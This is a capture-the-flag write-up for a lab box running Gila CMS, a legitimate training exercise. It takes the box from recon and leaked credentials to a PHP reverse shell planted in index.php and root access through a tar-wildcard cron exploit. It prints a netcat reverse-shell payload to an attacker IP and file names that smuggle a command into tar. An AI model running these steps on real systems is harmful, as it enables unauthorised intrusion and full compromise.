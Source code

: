 # [cd ../](../index.md)
# CMesS
> Can you root this Gila CMS box?  
> Please add `10.10.28.87 cmess.thm` to **/etc/hosts**

# Start

## Recon

### Nmap
```
nmap -A -T4 -p- cmess.thm
```
Open ports are: 
- 22 - OpenSSH 7.2p2 
- 80 - Apache httpd 2.4.18 

### Website
![web](web.png)  
There is nothing interesting here. ):

### Dirsearch
![dsearch](dsearch.png)  
We have a login on `/admin` but we dont have creds!

### Subdomain bruteforcing
```
ffuf -c -w ~/tools/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://cmess.thm" -H "Host: FUZZ.cmess.thm" -fl 108
```
We need the `-fl 108` to avoid junk.  
![ffuf](ffuf.png)  
We got only one subdomain `<subdomain>.cmess.thm`  
- Add `<subdomain>.cmess.thm` to **/etc/hosts**  
  ![hosts](hosts.png)

## Admin panel
If we go there we can see a user and a password!  
![pass](pass.png)  
Use these creds in `cmess.thm/admin`  
![login](login.png)  
And now we have an admin panel!

## Getting a lowpriv shell
Go to ***Content***->***File Manager***  
Open the index.php and replace the content with a [php reverse shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)  
![revshell](revshell.png)  
Now just go to `http://cmess.thm` while our nc is listening and BOOM we got a revshell as **www-data** !!

## Privesc
### Linenum
An interesting cronjob is running
```
*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```
We got `/opt/.password.bak` at the end of the linenum

```
cat /opt/.password.bak
```
And we got *andre's backup password*  
Now just ssh in as andre with the new creds  
And we got the ***SHELL*** as ***andre***  
Btw we got the user flag too from `/home/andre/user.txt`

## Getting ROOT
### Linenum again :D
We see the cronjob again and nothing more  
We have to do stg with it  
We need the [Wildcard exploit](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)  

### Creating the exploit
Lets make a reverse nc with msfvenom!
```
msfvenom -p cmd/unix/reverse_netcat lhost=10.8.22.204 lport=31337 R
```
And we got the payload:
```
mkfifo /tmp/gpactj; nc 10.8.22.204 31337 0</tmp/gpactj | /bin/sh >/tmp/gpactj 2>&1; rm /tmp/gpactj
```

### Exploiting
```
echo "mkfifo /tmp/gpactj; nc 10.8.22.204 31337 0</tmp/gpactj | /bin/sh >/tmp/gpactj 2>&1; rm /tmp/gpactj" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```
Now we just have to wait a lilbit  
![gotroot](gotroot.png)

# Got root and got the flag from `/root/root.txt`
